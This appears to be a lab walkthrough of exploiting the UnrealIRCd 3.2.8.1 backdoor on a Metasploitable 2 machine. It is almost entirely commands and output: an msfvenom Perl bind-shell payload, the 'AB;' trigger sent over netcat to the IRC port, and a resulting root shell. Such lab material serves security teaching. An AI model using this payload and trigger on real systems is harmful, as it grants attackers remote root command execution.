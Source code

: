 UnrealIRCD 3.2.8.1 Backdoor Command Execution
**Attacker:** Kali Linux<br>
**Victim:** Metasploitable 2<br>
<br>
Unreal IRCD 3.2.8.1 contains a backdoor that is triggered by entering **AB;** upon connecting. The backdoor was present in the Unreal3.2.8.1.tar.gz archive between November 2009 and June 12th 2010.<br>
<br>
The following example demonstrates it’s use on Metasploitable 2 (192.168.1.142).<br>
##Generating the Payload
We’re going to generate a unix bind shell with msfvenom (port 4444) and connect to this with Netcat.
<code>
<div class="code">
root@kali:~$ <com>msfvenom -p cmd/unix/bind_perl --payload-options</com><br>
root@kali:~$ <com>msfvenom -p cmd/unix/bind_perl LHOST=192.168.1.142</com><br>
No platform was selected, choosing Msf::Module::Platform::Unix from the payload<br>
No Arch selected, selecting Arch: cmd from the payload<br>
No encoder or badchars specified, outputting raw payload<br>
Payload size: 240 bytes<br>
<b>perl -MIO -e '$p=fork();exit,if$p;foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(LocalPort,4444,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);while(){if($_=~ /(.*)/){system $1;}};'</b><br>
</div>
</code>
##Triggering the Exploit
<code>
<div class="code">
root@kali:~$ <com>nc -vn 192.168.1.142 6667</com><br>
(UNKNOWN) [192.168.1.142] 6667 (ircd) open<br>
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...<br>
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead<br>
<com>AB;perl -MIO -e '$p=fork();exit,if$p;foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(LocalPort,4444,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);while(){if($_=~ /(.*)/){system $1;}};'</com><br>
:irc.Metasploitable.LAN 451 AB;perl :You have not registered
</div>
</code>
##Connecting to the Netcat Bind Shell
<code>
<div class="code">
root@kali:~$ <com>nc -vn 192.168.1.142 4444</com><br>
(UNKNOWN) [192.168.1.142] 4444 (?) open<br>
<com>python -c "import pty;pty.spawn('/bin/bash')"</com><br>
root@metasploitable:/etc/unreal#
</div>
</code>

Tags: backdoors 
